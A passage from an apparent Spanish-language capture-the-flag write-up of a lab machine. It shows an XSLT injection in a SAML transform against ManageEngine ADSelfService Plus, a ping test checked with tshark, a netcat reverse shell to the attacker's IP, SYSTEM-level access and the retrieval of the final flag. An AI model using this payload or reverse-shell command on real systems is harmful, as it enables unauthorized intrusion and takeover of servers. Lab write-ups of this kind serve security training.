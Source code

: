 Entre todo este XML está el nodo interesante `</ds:Transform>`... vamos a intentar tomar el transform que vimos en el PoC y editarlo con el mismo BurpSuite para colocárselo a esta petición y ver que sucede. 

```xml
<ds:Transform Algorithm="http://www.w3.org/TR/1999/REC-xslt-19991116"><xsl:stylesheet version="1.0" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"><xsl:template match="/"><xsl:variable name="rtobject" select="rt:getRuntime()"/><xsl:variable name="process" select="rt:exec($rtobject,'ping -n 1 10.10.16.59')"/><xsl:variable name="processString" select="ob:toString($process)"/><xsl:value-of select="$processString"/></xsl:template></xsl:stylesheet></ds:Transform>
```

Al hacerlo y enviar la petición mientras usamos el tshark para ver el tráfico ICMP, ¡recibimos una traza!

```bash
❯ doas tshark -i tun0 icmp
doas (vzon@pwnedz0n) password: 
Running as user "root" and group "root". This could be dangerous.
Capturing on 'tun0'
 ** (tshark:14989) 17:52:19.485195 [Main MESSAGE] -- Capture started.
 ** (tshark:14989) 17:52:19.485254 [Main MESSAGE] -- File: "/tmp/wireshark_tun0FV7281.pcapng"
    1 0.000000000 10.10.11.205 → 10.10.16.59  ICMP 60 Echo (ping) request  id=0x0001, seq=782/3587, ttl=127
    2 0.000013859  10.10.16.59 → 10.10.11.205 ICMP 60 Echo (ping) reply    id=0x0001, seq=782/3587, ttl=64 (request in 1)
```

Vamos a poner ahora para que nos envíe una consola con un netcat que nosotros vamos a subir a través del WinRM

```xml
<xsl:variable name="process" select="rt:exec($rtobject,'C:\Temp\nc64.exe -e cmd.exe 10.10.16.59 8443')"/>
```

```bash
❯ rlwrap nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 10.10.11.205 54532
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\ManageEngine\ADSelfService Plus\bin>whoami
whoami
nt authority\system
```

y ahora, a tomar la última flag

```bash
C:\Program Files (x86)\ManageEngine\ADSelfService Plus\bin>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D9B1-79BF

 Directory of C:\Users\Administrator\Desktop

03/06/2023  12:50 PM    <DIR>          .
03/06/2023  12:50 PM    <DIR>          ..
08/02/2023  10:43 PM                34 root.txt
               1 File(s)             34 bytes
```